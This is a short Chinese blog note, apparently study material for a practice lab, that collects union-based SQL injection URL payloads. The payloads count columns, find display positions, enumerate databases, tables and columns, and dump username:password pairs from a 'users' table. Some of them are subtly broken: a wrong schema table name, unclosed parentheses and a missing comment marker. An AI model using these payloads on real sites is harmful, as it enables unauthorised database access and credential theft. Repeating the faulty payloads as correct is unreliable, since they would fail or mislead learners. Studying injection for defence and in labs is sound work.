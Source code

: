 ```yaml
---
title: 整理常见的 SQL 注入语句
date: 2020-07-22 23:30:04
tags: ["Mysql", "Web 安全"] 
categories: ["Mysql"]
---
```


这篇笔记的目的是整理各种 SQL 注入使用时的`payload`。

<!-- more -->

> 说明：以下的`payloads`都基于单引号字符型注入。若是整型注入则把单引号和注释符（–+）去掉，若是双引号注入则把单引号换成双引号。

也就是基于这样一种情况：
```
SELECT * FROM Student WHERE id = '1';
```
## Payload
1. 判断当前数据表中有几列：

```
?id=1' order by 数值 --+
```
2. 查看显示位在第几列：

```
?id=-1' union select 1,2,3 --+
```
> 注意：这里需要传递一个不存在的条件，比如：`id=-1`

3. 显示当前数据库（假设显示位中包含第三位）：

```
?id=-1' union select 1,2,database() --+
```

4. 查看当前数据库中的所有表：

```
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```
> 函数`group_concat()`把所有结果都在一行输出

5. 查询所有数据库：

```
?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schema) --+
```

6. 查询某个数据库中的表：

```
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

7. 查询某个表中的所有字段：
```
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+
```

8. 查询某个表中的字段内容
```
?id=-1' union select 1,2,(select group_concat(name, 0x3a, passwd) from security.users)
```
> 0x3a会被转义位冒号`：`

### Union
SQL UNION 操作符合并两个或多个 SELECT 语句的结果，需要注意的是：UNION 内部的每个 SELECT 语句必须拥有相同数量的列。

### 参考链接
[Web安全学习之数据库注入语句的收集和学习](https://ca0y1h.top/Web_security/basic_learning/5.%E6%95%B0%E6%8D%AE%E5%BA%93%E6%B3%A8%E5%85%A5%E8%AF%AD%E5%8F%A5%E7%9A%84%E6%94%B6%E9%9B%86%E5%92%8C%E5%AD%A6%E4%B9%A0/)